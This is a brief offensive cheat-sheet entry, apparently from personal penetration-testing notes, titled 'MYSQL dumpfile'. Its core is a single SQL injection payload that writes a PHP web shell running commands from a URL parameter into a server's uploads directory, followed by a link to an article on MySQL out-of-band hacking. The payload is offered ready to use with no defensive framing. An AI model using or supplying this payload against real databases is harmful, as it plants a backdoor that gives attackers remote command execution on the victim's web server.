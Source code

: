 # MYSQL dumpfile

## Upload shell to web directory from mysql
```cheat sqlinjection Upload shell to web directory
SELECT '<?php exec($_GET["cmd"]); ?>' INTO dumpfile '/var/www/html/uploads/mshell.php';
```

## useful website for mysql hacking
https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/


tags: mysql webshell shell christian 
